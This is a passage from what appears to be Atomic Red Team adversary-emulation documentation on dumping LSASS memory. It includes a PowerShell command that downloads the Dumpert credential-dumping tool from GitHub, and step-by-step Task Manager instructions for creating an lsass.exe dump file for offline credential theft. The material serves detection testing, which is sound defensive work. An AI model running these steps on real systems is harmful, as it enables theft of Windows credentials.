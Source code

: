 #### Cleanup Commands:

```cmd
del C:\windows\temp\dumpert.dmp >nul 2> nul
```

#### Dependencies:  Run with `powershell`!

##### Description: Dumpert executable must exist on disk at specified location (#{dumpert_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path #{dumpert_exe}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -ItemType Directory (Split-Path #{dumpert_exe}) -Force | Out-Null
Invoke-WebRequest "https://github.com/clr2of8/Dumpert/raw/5838c357224cc9bc69618c80c2b5b2d17a394b10/Dumpert/x64/Release/Outflank-Dumpert.exe" -OutFile #{dumpert_exe}
```

<br/>
<br/>

## Atomic Test #8 - Dump LSASS.exe Memory using Windows Task Manager

The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with the Windows Task
Manager and administrative permissions.

**Supported Platforms:** Windows

#### Run it with these steps!

1. Open Task Manager:
   On a Windows system this can be accomplished by pressing CTRL-ALT-DEL and selecting Task Manager or by right-clicking
   on the task bar and selecting "Task Manager".

2. Select lsass.exe:
   If lsass.exe is not visible, select "Show processes from all users". This will allow you to observe execution of
   lsass.exe
   and select it for manipulation.

3. Dump lsass.exe memory:
   Right-click on lsass.exe in Task Manager. Select "Create Dump File". The following dialog will show you the path to
   the saved file.

<br/>
<br/>
